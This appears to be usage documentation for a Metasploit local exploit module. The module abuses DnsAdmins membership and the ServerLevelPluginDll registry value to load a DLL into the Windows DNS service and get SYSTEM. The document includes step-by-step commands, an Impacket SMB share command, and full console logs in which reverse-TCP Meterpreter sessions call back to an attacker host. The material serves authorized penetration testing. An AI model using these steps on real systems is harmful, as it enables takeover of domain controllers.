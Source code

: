 ## Introduction
This module exploits a feature in the DNS service of Windows Server. Users of the DnsAdmins group can set the
`ServerLevelPluginDll` value using dnscmd.exe to create a registry key at `HKLM\SYSTEM\CurrentControlSet\services\DNS\Parameters\`
named `ServerLevelPluginDll` that can be made to point to an arbitrary DLL. After doing so, restarting the service will load the DLL
and cause it to execute, providing us with SYSTEM privileges. Using the Metasploit-generated DLL will cause the service to become
unresponsive, and will require removing the registry key and rebooting to get it working again.

## Vulnerable Application

Windows Server 2003 and above

## Verification Steps

1. Get a Meterpreter shell
2. `use exploit/windows/local/dnsadmin_serverlevelplugindll`
3. `set PAYLOAD <payload>`
4. `set LHOST <lhost>`
5. `set LPORT <lport>`
6. `set SESSION <session_no>`
7. `set DLLNAME <dllname>` if you want to name your DLL something other than `msf.dll`
8. `set DLLPATH <dllpath>` if you want to place your DLL somewhere other than `%TEMP%` or want to use a UNC path
9. `exploit` to get SYSTEM shell

## Options

  **DLLNAME**
  Name of the DLL to use.

  **DLLPATH**
  Location of the DLL to use. If a UNC path is provided, the module assumes that the operator already has the prerequisites:
  1. A working SMB2 share (use Impacket's `smbserver.py` to quickly set up one)
  2. A DLL of the same architecture as the target system

## Scenarios

### Windows Server 2019 Standard x64, writing `msf.dll` to `%TEMP%`
```
PAYLOAD => windows/x64/meterpreter/reverse_tcp
LHOST => 192.168.137.128
LPORT => 4444
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.137.128:4444 
msf5 exploit(multi/handler) >
[*] Sending stage (206403 bytes) to 192.168.137.133
[*] Meterpreter session 1 opened (192.168.137.128:4444 -> 192.168.137.133:58249) at 2020-02-25 01:40:24 +0800

msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x64/windows  BASILISKCORP\salazar @ DC01  192.168.137.128:4444 -> 192.168.137.133:58249 (192.168.137.133)

msf5 exploit(multi/handler) > use exploit/windows/local/dnsadmin_serverlevelplugindll 
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set SESSION 1 
SESSION => 1
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LPORT 4444
LPORT => 4444
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Running check against DC01 as user BASILISKCORP\salazar...
[+] DNS service found on DC01.
[+] User BASILISKCORP\salazar is part of the DnsAdmins group.
[+] User BASILISKCORP\salazar can start/stop the DNS service.
[*] Checking service state...
[*] DNS service is running, proceeding...
[*] Creating the payload DLL (x64)...
[*] Writing DLL to C:\Users\salazar\AppData\Local\Temp\msf.dll...
[*] Modifying ServerLevelPluginDll to point to C:\Users\salazar\AppData\Local\Temp\msf.dll...
[+] Registry property serverlevelplugindll successfully reset.
[*] Restarting the DNS service...
[*] Sending stage (206403 bytes) to 192.168.137.133
[*] Meterpreter session 2 opened (192.168.137.128:4444 -> 192.168.137.133:58255) at 2020-02-25 01:40:49 +0800

meterpreter > sysinfo
Computer        : DC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : BASILISKCORP
Logged On Users : 11
gMeterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

### Windows Server 2019 Standard x64, specifying a UNC path for ServerLevelPluginDll
The fastest way to get a share up and running is to use Impacket's `smbserver`:
`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -ip 192.168.137.128 test ./`
```
PAYLOAD => windows/x64/meterpreter/reverse_tcp
LHOST => 192.168.137.128
LPORT => 4444
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.137.128:4444 
msf5 exploit(multi/handler) >
[*] Sending stage (206403 bytes) to 192.168.137.133
[*] Meterpreter session 1 opened (192.168.137.128:4444 -> 192.168.137.133:52968) at 2020-02-25 01:43:48 +0800
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x64/windows  BASILISKCORP\salazar @ DC01  192.168.137.128:4444 -> 192.168.137.133:52968 (192.168.137.133)

msf5 exploit(multi/handler) > use exploit/windows/local/dnsadmin_serverlevelplugindll 
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set SESSION 1 
SESSION => 1
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set LPORT 4444
LPORT => 4444
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLPATH \\\\192.168.137.128\\test
DLLPATH => \\192.168.137.128\test
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > set DLLNAME test.dll
DLLNAME => test.dll
msf5 exploit(windows/local/dnsadmin_serverlevelplugindll) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Running check against DC01 as user BASILISKCORP\salazar...
[+] DNS service found on DC01.
[+] User BASILISKCORP\salazar is part of the DnsAdmins group.
[+] User BASILISKCORP\salazar can start/stop the DNS service.
[*] Checking service state...
[*] DNS service is running, proceeding...
[*] Using user-provided UNC path.
[*] Modifying ServerLevelPluginDll to point to \\192.168.137.128\test\test.dll...
[+] Registry property serverlevelplugindll successfully reset.
[*] Restarting the DNS service...
[*] Sending stage (206403 bytes) to 192.168.137.133
[*] Meterpreter session 2 opened (192.168.137.128:4444 -> 192.168.137.133:52986) at 2020-02-25 01:46:06 +0800

meterpreter > sysinfo
Computer        : DC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : BASILISKCORP
Logged On Users : 12
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```